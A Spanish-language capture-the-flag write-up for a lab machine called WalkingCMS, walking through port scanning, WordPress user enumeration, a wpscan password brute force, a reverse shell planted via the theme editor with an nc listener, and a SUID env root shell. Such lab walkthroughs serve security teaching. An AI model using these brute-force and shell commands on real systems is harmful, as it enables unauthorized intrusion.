 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  09/04/2024
---
```


# WalkingCMS

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea la de por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos ver hay un directorio **WordPress** por lo que indagamos en él.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a enumerar que usuarios y plugins hay.

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta a través de la misma herramienta.

```bash
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### &#x20;🚀 **EXPLOTACIÓN**

Estamos dentro vamos a la sección de **Apariencia** en concreto **Theme Code Editor** para subir la [**Reverse Shell**](https://www.revshells.com/).

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

Miramos los directorios que tenemos permisos **SUID**

```bash
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

El directorio `/env` nos llama la atención lo explotamos para escalar privilegios a través de esta [página](https://gtfobins.github.io/gtfobins/env/).

```bash
/usr/bin/env /bin/sh -p
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
